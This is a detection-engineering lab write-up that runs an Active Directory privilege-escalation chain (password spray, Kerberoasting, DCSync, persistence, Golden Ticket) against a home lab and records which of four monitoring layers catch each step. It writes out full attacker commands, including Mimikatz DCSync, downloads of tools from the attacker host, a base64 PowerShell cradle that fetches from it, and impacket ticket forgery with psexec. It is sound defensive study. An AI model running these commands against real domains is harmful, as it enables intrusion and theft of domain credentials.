# AD Privilege Escalation Lab

## Detection Engineering Project

**Analyst:** Santiago Abel Ruiz Diaz  
**Platform:** Wazuh 4.12.0 EDR · Splunk Enterprise 10.4.0 · OPNsense Suricata (ET Open) · Zeek NSM  
**Status:** Complete — full attack chain simulated and validated across four detection layers  
**MITRE Coverage:** T1046 · T1087.002 · T1110.003 · T1021.001 · T1098 · T1558.003 · T1003.006 · T1053.005 · T1547.001 · T1059.001 · T1027 · T1558.001

A two-hop ACL privilege escalation chain against a live Active Directory domain. Starting with no credentials, the attacker discovers a misconfigured GenericWrite ACL through BloodHound, weaponizes it via targeted Kerberoasting, and escalates to full domain compromise via DCSync. Ends with a multi-technique persistence phase covering scheduled tasks, registry run keys, obfuscated PowerShell, and a Golden Ticket.

Each technique is validated across four independent detection layers — Wazuh EDR, Splunk, Suricata, and Zeek NSM — with blind spots documented where they exist.

---

## Lab Environment

```
  ╔══════════════════════════════════════════════════════════════════════╗
  ║  AD PRIVILEGE ESCALATION LAB  —  soclab.local  —  VLAN-segmented   ║
  ║  Proxmox pve1 (i5-4570, 31 GB)  +  pve2 (32 GB)  —  TL-SG108E    ║
  ╚══════════════════════════════════════════════════════════════════════╝

  ╔═══════════════════════════════════════════════════╗
  ║  VLAN 30 — ATTACKERS   10.10.30.0/24             ║
  ║  VM 202  voldemort (Kali)  10.10.30.100  pve1    ║
  ╚═══════════════════════╦═══════════════════════════╝
                          ║ attack traffic
                          ▼
  ┌───────────────────────────────────────────────────┐
  │  VM 201  OPNsense  —  inter-VLAN router           │
  │  Suricata IDS (ET Open)                           │
  │  VLAN 10 GW 10.10.10.1  VLAN 20 GW 10.10.20.1   │
  │  VLAN 30 GW 10.10.30.1  VLAN 40 GW 10.10.40.1   │
  └──────────╦──────────────────────────╦─────────────┘
             ║                          ║
             ▼                          ▼
  ╔══════════════════════╗   ╔══════════════════════════════╗
  ║  VLAN 10 — SERVERS   ║   ║  VLAN 20 — DETECTION        ║
  ║  10.10.10.0/24       ║   ║  10.10.20.0/24               ║
  ║                      ║   ║                              ║
  ║  ws01   10.10.10.10  ║   ║  splunk  10.10.20.50  pve1  ║
  ║  pve1   domain user  ║   ║  zeek    10.10.20.30  pve1  ║
  ║                      ║   ║  wazuh   10.10.20.20  pve2  ║
  ║  win-dc 10.10.10.11  ║   ╚══════════════════════════════╝
  ║  pve2   soclab.local ║
  ╚══════════════════════╝

  Wazuh agents  (win-dc, ws01)  ──►  wazuh   10.10.20.20   port 1514
  Splunk UF     (win-dc, ws01)  ──►  splunk  10.10.20.50   index=wineventlog
  Suricata alerts               ──►  splunk  10.10.20.50   index=opnsense
  Zeek (switch hardware SPAN)   ──►  splunk  10.10.20.50   index=zeek

  VLAN 40 — MANAGEMENT  10.10.40.0/24
  pve1 10.10.40.201 · pve2 10.10.40.202 · desk1 10.10.40.102 · desk2 10.10.40.103
```

**Four detection layers per technique:**
- **Layer 1 — Wazuh EDR:** host-based alert from agents on win-dc and ws01
- **Layer 2 — Splunk:** SPL against Windows Security log and Sysmon events (`index=wineventlog`)
- **Layer 3 — Suricata:** network IDS alert from OPNsense at the VLAN boundary (`index=opnsense`)
- **Layer 4 — Zeek:** network metadata from full traffic mirror (`index=zeek`)

---

## ACL Attack Path

```
agarcia  ──GenericWrite──►  mbrown  ──DS-Replication──►  Domain
(standard user, spray hit)  (service account, SPN set)   (full NTDS dump)
```

---

## Domain Users

| Account | Password | Role |
|---|---|---|
| agarcia | Spring2025! | Standard user — spray target, GenericWrite over mbrown |
| mbrown | Password123! | Service account — SPN: HTTPSvc/fake.soclab.local:8080, DS-Replication rights |
| lwilson | Spring2025! | Standard user — filler |
| dbaker | Spring2025! | Standard user — filler |

---

## Attack Chain Overview

| Phase | Technique | MITRE | Wazuh | Splunk | Suricata | Zeek |
|---|---|---|---|---|---|---|
| 1.1 | [Port scan](#11-port-scan--t1046) | T1046 | ❌ | ✅ filterlog 3,041 ports/min | ✅ SID 2024364 Nmap UA | ✅ 121k conn records |
| 1.2 | [User enumeration](#12-user-enumeration--t1087002) | T1087.002 | ✅ Rule 92652 | ✅ 4624 ANON LOGON | ❌ | ✅ SMB+LDAP burst |
| 2.1 | [Password spray](#21-password-spray--agarcia--t1110003) | T1110.003 | ✅ Rules 60122+92652 | ✅ 4625 + 4624 | ❌ | ❌ same-node blind |
| 3.1 | [RDP lateral movement](#31-rdp-to-ws01-as-agarcia--t1021001) | T1021.001 | ✅ Rule 92653 | ✅ 4624 Logon_Type=10 | ❌ | ❌ same-node blind |
| 4.1 | [BloodHound ACL discovery](#41-bloodhound--acl-path-discovery--t1087002) | T1087.002 | ✅ Rules 92203+92105 | ✅ Sysmon EventCode 11 | ❌ intra-VLAN | ✅ port 3268 GC burst |
| 5.1 | [Kerberoasting (Rubeus)](#51-kerberoasting-mbrown--t1558003) | T1558.003 | ✅ Rule 92203 (file drop) | ✅ 4769 etype=0x17 | ❌ intra-VLAN | ✅ port 88 krbtgt |
| 5.2 | [Hash crack (hashcat)](#52-offline-hash-crack--t1110002) | T1110.002 | — | — | — | — |
| 6.1 | [DCSync (Mimikatz)](#61-dcsync--t1003006) | T1003.006 | ✅ Rules 92213+92058 | ✅ 4662 replication GUIDs | ❌ intra-VLAN | ✅ port 49679 dynamic RPC |
| 7.1 | [Scheduled task](#71-scheduled-task--t1053005) | T1053.005 | ✅ Rule 60228 | ✅ 4698 full task XML | ❌ | ❌ |
| 7.2 | [Registry run key](#72-registry-run-key--t1547001) | T1547.001 | ✅ Rules 92302+92041 | ✅ Sysmon EventCode 13 | ❌ | ❌ |
| 7.3 | [Obfuscated PowerShell](#73-obfuscated-powershell--t1059001--t1027) | T1059.001 + T1027 | ✅ Rule 92027 | ✅ 4104 decoded payload | ❌ | ❌ same-node blind |
| 7.4 | [Golden Ticket](#74-golden-ticket--t1558001) | T1558.001 | ✅ Rule 92650 lv12 | ✅ 4624+4672 no 4768 | ❌ | ✅ cifs/win-dc.soclab.local |

---

## Phase 1 — Reconnaissance

### 1.1 Port Scan — T1046

```bash
nmap -sV -sC -vv -p- 10.10.10.0/24 -oA priv-esc-nmap/privesc
```

Full subnet scan with service version detection (`-sV`) and default NSE scripts (`-sC`). Two hosts discovered: ws01 (10.10.10.10, RDP only) and win-dc (10.10.10.11, full DC port profile). Domain name `soclab.local` and hostnames leaked via RDP NTLM banner without credentials.

**Red team note:** SMB signing required on win-dc — relay attacks not viable. The `-sV -sC` flags sent HTTP probes via NSE scripts, generating more Suricata noise than a pure SYN scan would.

---

#### Detection

**Wazuh (EDR):** No alert. Nmap SYN scan generates no Windows Security events — host-based EDR is architecturally blind to external network reconnaissance.

**Splunk / OPNsense filterlog:**

```spl
index=opnsense sourcetype=syslog "10.10.30.100"
| eval f=split(_raw, ",")
| eval src_ip=mvindex(f, 18), dst_ip=mvindex(f, 19), dst_port=mvindex(f, 21)
| where src_ip="10.10.30.100"
| bucket _time span=1m
| stats dc(dst_port) as unique_ports by _time, src_ip, dst_ip
| where unique_ports > 100
| sort -unique_ports
```



Detected. 19,148 filterlog events. Peak: **3,041 unique destination ports** from 10.10.30.100 → 10.10.10.11 in a single minute — unambiguous port scan signature at the VLAN boundary.

**Suricata (IDS):**

```spl
index=opnsense sourcetype=syslog
| rex field=_raw "suricata\[\d+\]: (?<evt>.+)"
| search evt="*alert*" evt="*10.10.30.100*"
| table _time, evt
| sort -_time
```



Detected. **144 alerts — SID 2024364 "ET SCAN Possible Nmap User-Agent Observed"** — Category: Web Application Attack, Severity 1. The NSE scripts sent HTTP `OPTIONS` requests with `Mozilla/5.0 (compatible; Nmap Scripting Engine)` user-agent to OPNsense port 80 and win-dc WinRM/5985. A pure `-sS` SYN scan would not trigger this rule.

**Zeek (NSM):**

```spl
index=zeek sourcetype=zeek_json
| spath input=_raw
| search "id.orig_h"="10.10.30.100"
| table _time, "id.orig_h", "id.resp_h", "id.resp_p", proto, service
| head 20
```



Detected. **121,842 connection records** from 10.10.30.100 → 10.10.10.11 — dozens of random high ports probed per second. Classic full port scan fingerprint at the packet level.

**Blue team assessment:** Three independent detection layers with no host-based agent required. OPNsense filterlog is the strongest volume signal (3,041 unique ports/min). Suricata adds tool attribution via Nmap UA signature. Zeek provides packet-level corroboration. Recommended alert: `dc(dst_port) > 100` from any VLAN 30 source within 1 minute.

---

### 1.2 User Enumeration — T1087.002

```bash
nxc smb 10.10.10.11 -u '' -p '' --rid-brute
nxc ldap 10.10.10.11 -u '' -p '' --users
```




Both null session paths blocked. SMB RID brute returns `STATUS_ACCESS_DENIED` — anonymous LSA enumeration denied. LDAP returns `operationsError: DSID-0C090D44` — authenticated bind required. No user list obtained.

**Red team note:** Operations denied but the anonymous connection itself succeeds at the protocol level — this is the detection artifact. Pivoting to password spray using naming conventions from the domain info leaked by the RDP NTLM banner (`soclab.local`, `WS01`, `WIN-DC`).

---

#### Detection

**Wazuh (EDR):**

SMB:



LDAP:



Detected. **Rule 92652 (level 6)** — "Successful Remote Logon Detected - User:\ANONYMOUS LOGON - NTLM authentication, possible pass-the-hash attack" — fires on both the SMB and LDAP null session attempts. The rule triggers on the anonymous connection being established, not on the denied operation.

**Splunk / Windows Security log:**

```spl
index=wineventlog ComputerName="win-dc.soclab.local" (EventCode=4624 OR EventCode=4625)
| search Account_Name="ANONYMOUS LOGON"
| table _time, EventCode, Account_Name, IpAddress, Logon_Type
| sort -_time
| head 10
```



Detected. **EventCode 4624, Account_Name=ANONYMOUS LOGON, Logon_Type=3** — Windows logs the null session as a successful network logon even though the subsequent operations are denied. Two clusters: 13:34:10 (SMB RID brute) and 13:35:51 (LDAP enum). IpAddress field is blank — NTLM network logons do not populate source IP in the 4624 event.

**Suricata (IDS):** No alert. No ET Open signature matches anonymous SMB or LDAP enumeration.

**Zeek (NSM):**

```spl
index=zeek sourcetype=zeek_json
| spath input=_raw
| search "id.orig_h"="10.10.30.100" "id.resp_h"="10.10.10.11"
| table _time, "id.orig_h", "id.resp_h", "id.resp_p", service
| sort -_time
| head 20
```



Detected. SMB (port 445) at 13:34:10 and LDAP (port 389) + LDAPS (port 636) at 13:35:52 — matching the nxc command sequence exactly. Source attribution confirmed.

**Blue team assessment:** Detectable at three layers despite operations being denied. The key finding: WS2025 denies the enumeration but still logs the anonymous connection — the defender sees the attempt even though the attacker gets nothing. IpAddress is blank in Splunk's 4624 event; Zeek is required for source attribution.

---

## Phase 2 — Initial Access

### 2.1 Password Spray → agarcia — T1110.003

```bash
nxc rdp 10.10.10.10 -u ~/lab/priv-esc/ad-users.txt -p 'Spring2025!'
```



One credential hit: `soclab.local\agarcia:Spring2025!`. Target banner reveals `nla:False` on ws01 — Network Level Authentication disabled, meaning the service fingerprint is visible to unauthenticated clients. The `Pwn3d!` tag confirms agarcia has local admin rights on ws01.

**Red team note:** No lockout triggered. agarcia's seasonal password (`Spring2025!`) cracked on first pass. NLA disabled is a weaker security posture that allows banner enumeration before authentication.

---

#### Detection

**Wazuh (EDR):**



Detected. Three rules fire at 13:58:40:
- **Rule 60122 (level 5)** — failures for non-matching accounts
- **Rule 92652 (level 6)** — successful hit for agarcia via NTLM authentication
- **Rule 67028** — special privileges assigned, confirming agarcia has local admin rights on ws01

**Splunk / Windows Security log:**

```spl
index=wineventlog ComputerName="ws01.soclab.local" EventCode=4625
| table _time, Account_Name, IpAddress, Logon_Type, Failure_Reason
| sort _time
```



Partial detection. Only **1 EventCode 4625** visible — RDP authentication without NLA coalesces failures differently than SMB. Account_Name shows "-" due to multi-value extraction of SubjectUserName (blank) and TargetUserName. IpAddress blank. Wazuh is the stronger layer for RDP spray.

**Suricata (IDS):** No alert. No ET Open signature for RDP credential spray.

**Zeek (NSM):** No results. RDP spray connections too short-lived for conn.log capture. Zeek is blind to this technique regardless of node placement.

**Blue team assessment:** Wazuh is the standout layer — fires on both failures and the successful hit with source account attribution. The key detection signal is Rule 92652 firing with NTLM authentication on a domain account — anomalous for RDP to a workstation and worth alerting on standalone.

---

## Phase 3 — Lateral Movement

### 3.1 RDP to ws01 as agarcia — T1021.001

```bash
xfreerdp /v:10.10.10.10 /u:agarcia /p:'Spring2025!' /d:soclab /drive:kali,/home/kali/lab/priv-esc /dynamic-resolution
```



RDP session established as `SOCLAB\agarcia`. The `/drive:kali,/home/kali/lab/priv-esc` flag mounts the Kali attack toolset as `\\tsclient\kali` inside the session — Rubeus, SharpHound, and Mimikatz accessible without a network download.

---

#### Detection

**Wazuh (EDR):**



Detected. At 14:27:09:
- **Rule 92653 (level 3)** — "User: SOCLAB\agarcia logged using Remote Desktop Connection (RDP) from ip:10.10.30.100" — full attribution: account, protocol, and source IP in one alert
- **Rule 92900 (level 12)** — LSASS accessed by svchost.exe, triggered by RDP session initialization

**Splunk / Windows Security log:**

```spl
index=wineventlog ComputerName="ws01.soclab.local" EventCode=4624
| where Logon_Type=10
| table _time, Account_Name, IpAddress, Logon_Type
| sort -_time
| head 10
```



Detected. **EventCode 4624, Logon_Type=10 (RemoteInteractive)** at 14:27:08 — confirms RDP session. Account_Name shows both `WS01$` (machine account) and `agarcia` from multi-value extraction. IpAddress blank — Windows does not populate source IP in Logon_Type=10 events. Timestamp aligns with Wazuh within 1 second.

**Suricata (IDS):** No alert. No ET Open signature for RDP session establishment.

**Zeek (NSM):** No results. Kali (pve1) → ws01 (pve1) — same-node traffic stays on the virtual bridge and never crosses the physical switch SPAN.

**Blue team assessment:** Wazuh Rule 92653 is actionable standalone — it names user, protocol, and source IP in the rule description. The 4624 Logon_Type=10 + immediate LSASS access (Rule 92900) is a high-confidence RDP lateral movement pattern. Zeek and Suricata have no coverage in this topology.

---

## Phase 4 — Enumeration

### 4.1 BloodHound — ACL Path Discovery — T1087.002

**Tool staging via tsclient drive redirect:**

```powershell
Copy-Item "\\tsclient\kali\SharpHound.exe" C:\Users\agarcia\Desktop
```



SharpHound staged without a network download — the xfreerdp drive mount appears as local filesystem I/O.

#### Detection — Tool Staging

**Wazuh (EDR):**



Detected. **Rule 92203 (level 6)** fires on ws01 — "Executable file created by powershell: `C:\Users\agarcia\Desktop\SharpHound.exe`" — triggered by Sysmon EventCode 11 (FileCreate) before execution.

**Splunk / Sysmon:**

```spl
index=wineventlog ComputerName="ws01.soclab.local" EventCode=11
| search TargetFilename="*SharpHound*"
| table _time, Image, TargetFilename
| sort _time
```



Detected. **Sysmon EventCode 11** — `powershell.exe` wrote `SharpHound.exe` to `C:\Users\agarcia\Desktop`. PowerShell writing a file named SharpHound to a user Desktop has no legitimate use case.

**Suricata / Zeek:** No alert. File transfer is encapsulated in the existing RDP session — no separate network connection.

---

**SharpHound execution:**

```powershell
C:\Users\agarcia\Desktop\SharpHound.exe -c All --zipfilename bloodhound.zip
```



#### Detection — Enumeration

**Wazuh (EDR):**



Partial detection. **Rule 92105 (level 3)** — "Possible suspicious access to Windows admin shares" — fires ~15 times on ws01 between 15:13 and 15:17. Triggered by SharpHound's session enumeration querying ADMIN$ shares on domain computers. No BloodHound-specific rule fires on the LDAP enumeration itself.

**Splunk / Windows Security log:** No results. EventCode 4662 requires both `auditpol /set /subcategory:"Directory Service Access" /success:enable` AND SACL entries on the queried objects — user and group objects do not have read-access SACLs by default. Tested and confirmed: 0 events even with audit policy enabled.

**Suricata (IDS):** No alert. BloodHound LDAP queries are intra-VLAN (ws01 → win-dc, both VLAN 10) — never routes through OPNsense.

**Zeek (NSM):**

```spl
index=zeek sourcetype=zeek_json
| spath input=_raw
| search "id.orig_h"="10.10.10.10" "id.resp_h"="10.10.10.11"
| table _time, "id.orig_h", "id.resp_h", "id.resp_p", service
| head 20
```



Detected. At 15:42:30–15:45:00, Zeek captured the full BloodHound multi-protocol burst from ws01→win-dc:
- Port **135** (dce_rpc) — RPC endpoint mapper
- Port **445** (gssapi,smb,dce_rpc) — admin share session enumeration (explains Rule 92105)
- Port **389** (LDAP) — directory queries (users, groups, ACLs)
- Port **3268** (Global Catalog) — BloodHound behavioral fingerprint; workstations do not query GC under normal operation
- Port **636** (LDAPS) — secure LDAP

LDAP/389 + GC/3268 + SMB/445 + RPC/135 simultaneously from a workstation is an unambiguous SharpHound signature. Cross-node placement (ws01 pve1 → win-dc pve2) gives Zeek full visibility into what appears to be intra-VLAN traffic.

**Blue team assessment:** The pre-execution file drop (Rule 92203 + Sysmon EventCode 11) is the highest-value alert — fires before enumeration starts and names the tool explicitly. Zeek's Global Catalog burst on port 3268 is the strongest single runtime indicator. The Splunk 4662 gap for LDAP queries is a critical blind spot that requires manual SACL configuration — not covered by `auditpol` alone.

---

## Phase 5 — Privilege Escalation

### 5.1 Kerberoasting mbrown — T1558.003

```powershell
# Download Rubeus from Kali HTTP server
Invoke-WebRequest -Uri "http://10.10.30.100:8080/Rubeus.exe" -OutFile Rubeus.exe
```



```powershell
.\Rubeus.exe kerberoast /user:mbrown /domain:soclab.local /dc:10.10.10.11 /creduser:soclab.local\agarcia /credpassword:'Spring2025!' /nowrap
```



Rubeus reported **Supported ETypes: RC4_HMAC** — mbrown has RC4 enabled. Hash `$krb5tgs$23$*mbrown$soclab.local$HTTPSvc/fake.soclab.local:8080@soclab.local*$...` extracted, ready for hashcat `-m 13100`.

**Red team note:** RC4_HMAC (`0x17`) is the attack-enabling condition — RC4 hashes are crackable offline while AES256 is not. mbrown's user-account SPN (`HTTPSvc/...`) and RC4 support are both prerequisites for a practical Kerberoast. No lockout, no password change required.

---

#### Detection

**Wazuh (EDR):**



Partial detection. **Rule 92203 (level 6)** fires on Rubeus.exe written to disk — pre-execution file drop only. No default Wazuh rule fires on the TGS request itself. The credential theft is invisible to Wazuh's default ruleset.

**Splunk / Windows Security log:**

```spl
index=wineventlog ComputerName="win-dc.soclab.local" EventCode=4769
| where Client_Address!="::1"
| table _time, Account_Name, Client_Address, Ticket_Encryption_Type, Service_Name
| sort -_time
| head 10
```



Detected. **EventCode 4769 at 16:10:36** — `agarcia@SOCLAB.LOCAL` from ws01 (`::ffff:10.10.10.10`) requesting a ticket for `mbrown` with **Ticket_Encryption_Type=0x17** (RC4_HMAC). Every other 4769 in the log uses `0x12` (AES256) — the single RC4 row is immediately anomalous. Detection rule: `EventCode=4769 AND Ticket_Encryption_Type=0x17 AND Service_Name NOT LIKE "%$"`.

**Suricata (IDS):** No alert. Kerberoasting is intra-VLAN (ws01 → win-dc, both VLAN 10) — never routes through OPNsense so Suricata has no visibility. Contrast with [`ad-attack-detection`](../ad-attack-detection/) where the same technique fires a Priority 1 CISA_KEV alert (SID 2019922) because the attacker is on a separate VLAN and the TGS-REQ crosses the firewall boundary. Coverage difference is topology, not technique.

**Zeek (NSM):**

```spl
index=zeek sourcetype=zeek_json
| spath input=_raw
| search "id.orig_h"="10.10.10.10" "id.resp_h"="10.10.10.11" "id.resp_p"=88
| table _time, "id.orig_h", "id.resp_h", "id.resp_p", service
| sort -_time
| head 10
```



Detected. Port 88 connections at **16:10:37** from ws01→win-dc, service label `krbtgt/soclab.local` — 1-second delta from the Splunk 4769 event. Timestamp correlation confirms the match.

**Blue team assessment:** Splunk EventCode 4769 with `Ticket_Encryption_Type=0x17` is the definitive Kerberoasting detection — one row, unambiguous. No legitimate workload requests RC4 tickets in a modern AD environment. When RC4 is fully disabled, the detection shifts to user-account SPNs (`Service_Name` not ending in `$`) combined with unusual requesting accounts.

---

### 5.2 Offline Hash Crack — T1110.002

```bash
hashcat -m 13100 ~/lab/priv-esc/mbrown.hash /usr/share/wordlists/rockyou.txt
```



Hash did not crack. `Password123!` is not in rockyou.txt. DCSync proceeds using mbrown's known credentials directly.

**Note:** The detection value of Phase 5 is the EventCode 4769 with `0x17` etype — crack success is not required for the detection story. In a real engagement this would require a custom wordlist, rules, or GPU-accelerated attack.

---

## Phase 6 — Impact

### 6.1 DCSync — T1003.006

```powershell
# Download Mimikatz from Kali HTTP server
Invoke-WebRequest -Uri "http://10.10.30.100:9001/mimikatz.exe" -OutFile mimikatz.exe
```



```powershell
.\mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:soclab.local /user:krbtgt" "exit"
```



DCSync executed as agarcia (local admin on ws01). Mimikatz pulled the krbtgt credential material via the DC replication protocol:
- **NTLM:** `c0e500e1342a84945f5ede94fda9c1fe`
- **AES256:** `5082834bd511e8f9adec889b85e8a9ba9769c06dfbf73dd67563692b4fa5f955`

These two values are sufficient for a Golden Ticket attack. Full domain compromise achieved — no exploit required, only the DS-Replication-Get-Changes-All right on mbrown.

---

#### Detection

**Wazuh (EDR):**





Detected (tool drop, not DCSync call):
- **Rule 92213 (level 15)** — "Executable file dropped in folder commonly used by malware" — higher severity than Rule 92203 used for SharpHound/Rubeus; Wazuh has a more aggressive rule for high-risk drop locations like Desktop
- **Rule 92058 (level 12)** — "Application Compatibility Database launched" — triggered by Mimikatz execution

No default Wazuh rule fires on the DCSync replication call itself.

**Splunk / Windows Security log:**

```spl
index=wineventlog ComputerName="win-dc.soclab.local" EventCode=4662
| search Message="*1131f6aa*" OR Message="*1131f6ab*"
| table _time, Account_Name, Accesses, Message
| sort -_time
```





Detected. **EventCode 4662** with GUIDs `1131f6aa` (DS-Replication-Get-Changes) and `1131f6ab` (DS-Replication-Get-Changes-All) — the exact access rights DCSync requires. Account_Name is `mbrown`. Critical SPL note: these GUIDs are only in the raw `Message` field — searching the extracted `Properties` field returns 0 results. Requires `auditpol /set /subcategory:"Directory Service Access" /success:enable` on the DC.

**Suricata (IDS):** No alert. DCSync is intra-VLAN (ws01 → win-dc, both VLAN 10).

**Zeek (NSM):**

```spl
index=zeek sourcetype=zeek_json
| spath input=_raw
| search "id.orig_h"="10.10.10.10" "id.resp_h"="10.10.10.11"
| table _time, "id.orig_h", "id.resp_h", "id.resp_p", service
| sort -_time
| head 30
```



Detected. At 16:43–16:47:
- Ports 135 + 88 + 389 — RPC mapper, Kerberos auth, LDAP
- Port 445 — SMB authentication
- **Port 49679 (dynamic RPC, no service label)** — the actual DRSUAPI `DRSGetNCChanges` call

A workstation initiating DC replication over a dynamic RPC port is architecturally anomalous — workstations have no legitimate reason to initiate DC replication.

**Blue team assessment:** Two strong detections: Splunk 4662 with replication GUIDs (definitive Windows-native) and Zeek's dynamic RPC port from a workstation (architecturally anomalous). Wazuh catches the tool drop at level 15 but misses the replication call. The Splunk detection requires Directory Service Access auditing — a common gap in real environments. 4662 + dynamic port from a non-DC host is a near-zero false-positive detection pair.

---

## Phase 7 — Persistence

### 7.1 Scheduled Task — T1053.005

```powershell
schtasks /create /tn "WindowsUpdate" /tr "powershell.exe -NoP -W Hidden -C whoami" /sc onlogon /ru SYSTEM
```



Task created on ws01 named `\WindowsUpdate` — masquerading as a Windows update process. Triggers on user logon, executes hidden PowerShell as SYSTEM.

---

#### Detection

**Wazuh (EDR):**



Detected. **Rule 60228 (level 4)** — "A scheduled task was created" — ws01 at 17:35:06. Fires on Windows Security EventCode 4698.

**Splunk / Windows Security log:**

```spl
index=wineventlog ComputerName="ws01.soclab.local" EventCode=4698
| table _time, Account_Name, Task_Name, Task_Content
| sort -_time | head 5
```



```spl
index=wineventlog ComputerName="ws01.soclab.local" EventCode=4698
| head 1
| table _raw
```



Detected. **EventCode 4698** — `\WindowsUpdate` created by Administrator. The raw event XML exposes the full task definition: `<Command>powershell.exe</Command>`, `<Arguments>-NoP -W Hidden -C whoami</Arguments>`, executing as SYSTEM (SID S-1-5-18). Requires auditpol `Other Object Access Events` — disabled by default.

**Suricata / Zeek:** Blind. Scheduled task creation is host-based — no network traffic generated.

**Blue team assessment:** EventCode 4698 provides full task XML including command, arguments, and execution principal in a single event. Alert on tasks running PowerShell with `-Hidden` or `-Enc` flags. The critical gap: `Other Object Access Events` audit subcategory must be enabled — missing in most default Windows deployments.

---

### 7.2 Registry Run Key — T1547.001

```powershell
reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "WindowsUpdate" /t REG_SZ /d "powershell.exe -NoP -W Hidden -C whoami" /f
```



Run key written to `HKLM\...\CurrentVersion\Run\WindowsUpdate` — triggers for all users at every logon.

---

#### Detection

**Wazuh (EDR):**



Detected. Two rules fire simultaneously at 17:09:00:
- **Rule 92302 (level 6)** — "Registry entry to be executed on next logon was modified using command line application reg.exe"
- **Rule 92041 (level 10)** — "Value added to registry key has Base64-like pattern" — PowerShell flags `-NoP -W Hidden` flagged as suspicious content

**Splunk / Sysmon EventCode 13:**

```spl
index=wineventlog ComputerName="ws01.soclab.local" EventCode=13
| search TargetObject="*CurrentVersion\\Run*"
| table _time, Image, TargetObject, Details
| sort -_time
```



Detected. **Sysmon EventCode 13 (Registry Value Set)** at 17:08:59 — `reg.exe` wrote `powershell.exe -NoP -W Hidden -C whoami` to `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\WindowsUpdate`. Full payload visible in `Details` field in plaintext. No additional audit policy required — Sysmon monitors registry writes natively.

**Suricata / Zeek:** Blind. Registry modification is host-based.

**Blue team assessment:** Sysmon EventCode 13 provides both mechanism and payload without additional audit policy configuration. Rule 92302 identifies the specific persistence mechanism; Rule 92041 adds content-level detection for suspicious patterns. Alert on any Run key write where the value contains PowerShell with `-Hidden`, `-Enc`, or `-NoP` flags.

---

### 7.3 Obfuscated PowerShell — T1059.001 + T1027

```powershell
Start-Process powershell -ArgumentList '-NoP -W Hidden -Enc JABjAD0AbgBlAHcA...' -WindowStyle Hidden
```



Base64-encoded payload decodes to `$c=new-object System.Net.WebClient;$c.DownloadString('http://10.10.30.100:9001/hello')` — simulating a C2 beacon. Kali's HTTP server received the GET request at 18:11.

---

#### Detection

**Wazuh (EDR):**



Detected at 18:11:24:
- **Rule 92027 (level 4)** — "Powershell process spawned powershell instance" — `Start-Process powershell` created a child PS process (parent→child PowerShell is a behavioral indicator)
- **Rule 92213 (level 15)** — "Executable file dropped in folder commonly used by malware" — spawned process wrote to a high-risk path

**Splunk / EventCode 4104:**

```spl
index=wineventlog ComputerName="ws01.soclab.local" EventCode=4104
| search Message="*DownloadString*" OR Message="*WebClient*"
| table _time, Message
| sort -_time | head 5
```



Detected. **EventCode 4104 (Script Block Logging)** at 18:11:24 — the decoded script block in plaintext: `$c=new-object System.Net.WebClient;$c.DownloadString('http://10.10.30.100:9001/hello')`. Base64 obfuscation is completely transparent — Script Block Logging decodes before logging. Requires Script Block Logging enabled (`HKLM\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging`) and PowerShell Operational log forwarded in Splunk UF `inputs.conf`.

**Suricata (IDS):**



Partial detection. OPNsense filterlog logged the outbound beacon: ws01 (10.10.10.10) → Kali (10.10.30.100:9001) at 18:11:25. No Suricata alert — no ET signature for a generic WebClient HTTP GET to a private IP on a non-standard port.

**Zeek (NSM):** Blind. ws01 and Kali are both on pve1 — traffic routes through OPNsense but stays within the pve1 hypervisor, never crossing the physical switch SPAN.

**Blue team assessment:** Two independent detections: Wazuh Rule 92027 (process hierarchy) and Splunk 4104 (decoded payload). The critical gap: Script Block Logging and PowerShell Operational log forwarding are disabled by default. Recommended detection rule: alert on EventCode 4104 containing `WebClient`, `DownloadString`, `IEX`, or `FromBase64String`.

---

### 7.4 Golden Ticket — T1558.001

```bash
# Forge ticket using krbtgt AES256 from DCSync
impacket-ticketer -aesKey 5082834bd511e8f9adec889b85e8a9ba9769c06dfbf73dd67563692b4fa5f955 \
  -domain-sid S-1-5-21-3680473123-3018442300-3385348788 \
  -domain soclab.local Administrator

export KRB5CCNAME=Administrator.ccache
impacket-psexec soclab.local/Administrator@win-dc.soclab.local -k -no-pass
```





Forged Kerberos ticket signed with the domain's own krbtgt key material — valid for 10 years, grants any privilege on any service. `impacket-psexec` used the ticket to drop a service binary via the SMB admin share and spawn a SYSTEM shell on win-dc.

**Red team note:** The ticket forgery itself leaves no Windows event log trace — no AS-REQ sent, no TGT requested from the DC. Detection relies entirely on behavioral anomalies downstream.

---

#### Detection

**Wazuh (EDR):**



Detected via psexec execution, not ticket forgery. At 18:40:42:
- **Rule 92650 (level 12)** — "New Windows Service Created to start from windows root path"
- **Rule 92307 (level 3)** — Service `GbnS` with binary `vsaDAsgf.exe` — random name is the classic impacket-psexec signature
- **Rule 92218 (level 6)** — "Possible abuse of Windows admin shares by binary dropped in Windows root folder"
- **Rule 92052 (level 4)** — "Windows command prompt started by an abnormal process"
- **Rule 67028 × 3** — Special privileges assigned at logon

**Splunk / Windows Security log:**

```spl
index=wineventlog ComputerName="win-dc.soclab.local" (EventCode=4624 OR EventCode=4672)
| where IpAddress="10.10.30.100" OR match(Account_Name, "Administrator")
| table _time, EventCode, Account_Name, Logon_Type, IpAddress
| sort -_time | head 10
```



Detected via absence pattern. **Four 4624 (Logon_Type=3) + 4672 pairs** for Administrator at 18:40:41 — rapid network logons with special privileges from the psexec service calls. EventCode 4768 query returns **0 results** from 10.10.30.100 — no TGT request from Kali, confirming the ticket was forged and presented directly. A legitimate Administrator logon always generates 4768 (AS-REQ) first.

**Suricata (IDS):** Blind. No ET rule distinguishes a forged ticket from a legitimate Kerberos exchange on port 88.

**Zeek (NSM):** Detected. Port 88, service: `cifs/win-dc.soclab.local` from 10.10.30.100 — the forged ticket being used to request a CIFS/SMB service ticket. The `cifs/win-dc.soclab.local` service label from a VLAN 30 IP is the Golden Ticket fingerprint — workstations and users never authenticate Kerberos directly from the attacker VLAN.

**Blue team assessment:** The ticket forgery itself is undetectable — cryptographically indistinguishable from a real ticket. Detection relies on two behavioral signals: Splunk's absence of EventCode 4768 from the source IP (no AS-REQ sent), and Zeek's `cifs/win-dc.soclab.local` from an attacker VLAN source. Wazuh catches the downstream psexec at level 12 but misses the authentication. The only true defense is krbtgt password rotation twice (to invalidate existing tickets). Recommended detection: alert on 4624/4672 for privileged accounts with no preceding 4768 from the same source within a 5-minute window.

---

## Related

